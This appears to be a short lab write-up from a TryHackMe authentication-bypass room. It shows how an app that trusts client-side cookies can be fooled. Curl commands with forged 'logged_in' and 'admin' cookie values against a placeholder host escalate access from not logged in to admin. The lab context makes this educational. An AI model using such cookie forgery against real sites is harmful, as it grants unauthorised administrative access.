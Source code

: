 ## Cookie tempering
Examples cookie set after a successful login:
```
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```
Request for the target page:  
`curl http://MACHINE_IP/cookie-test`
Message: **Not Logged In** 

`curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`  
Message: **Logged In As A User**  

`curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`  
Message: **Logged In As An Admin**

___
## Sources
- tryhackme, Authentication Bypass, https://tryhackme.com/room/authenticationbypass.